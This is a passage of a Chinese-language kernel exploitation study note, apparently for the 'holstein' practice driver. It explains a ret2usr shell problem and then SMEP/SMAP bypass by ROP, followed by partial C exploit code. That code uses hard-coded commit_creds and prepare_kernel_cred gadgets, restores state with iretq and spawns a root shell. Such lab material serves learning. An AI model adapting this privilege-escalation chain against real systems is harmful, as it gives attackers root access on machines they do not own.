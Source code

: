 注意这里在ret2usr的exp中，我在自己的实验环境里尝试网上的exp会出现提权成功但是system("/bin/sh") segment fault的问题，调试了下发现是system函数内部逻辑中某个内核函数的出现错误。后来换成execve来执行就可以成功get shell。根据GPT的说法是因为此时**用户态栈**、**C 运行时环境**（比如 glibc 的内部锁、`stdout`/`stderr` 缓冲区）已经被提权 shellcode 或者不正确的 `iretq` 栈恢复给搞乱了，所以在某些内核函数执行时就会出现错误。但是execve这个函数会更新当前的进程上下文（直接用新的进程替换掉原来的进程），并且重建栈，所以可以执行成功（暂时不知道正确与否）

## SMEP/SMAP

类似于用户态下的NX执行，在内核态时无法执行用户态中的代码，也不能读取用户态中的数据。使用ROP技术来完成提权：

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *VULN_DRV = "/dev/holstein";
void spawn_shell();

int64_t global_fd = 0;

uint64_t user_cs, user_ss, user_rflags, user_sp;
uint64_t prepare_kernel_cred = 0xffffffff8106e240;
uint64_t commit_creds = 0xffffffff8106e390;
uint64_t pop_rdi_ret = 0xffffffff8127bbdc;
uint64_t mov_rdi_rax_ret = 0xffffffff8160c96b;
uint64_t pop_rcx_ret = 0xffffffff812ea083;
uint64_t iretq = 0xffffffff81343b12;
uint64_t swapgd = 0xffffffff8160bfac;
uint64_t user_rip = (uint64_t)spawn_shell;

void open_dev() {
  global_fd = open(VULN_DRV, O_RDWR);
  if (global_fd < 0) {
    printf("[!] failed to open %s\n", VULN_DRV);
    exit(-1);
  } else {
    printf("[+] successfully opened %s\n", VULN_DRV);
  }
}

void spawn_shell() {
  puts("[+] returned to user land");
  uid_t uid = getuid();
  if (uid == 0) {
    printf("[+] got root (uid = %d)\n", uid);
  } else {
    printf("[!] failed to get root (uid: %d)\n", uid);
    exit(-1);
  }
  puts("[*] spawning shell");
  char *argv[] = {"/bin/sh", NULL};
  char *envp[] = {NULL};
  execve("/bin/sh", argv, envp);
  puts("[+] win!");
  exit(0);
}

void save_userland_state() {
  puts("[*] saving user land state");
  __asm__(".intel_syntax noprefix;"
          "mov user_cs, cs;"
          "mov user_ss, ss;"
```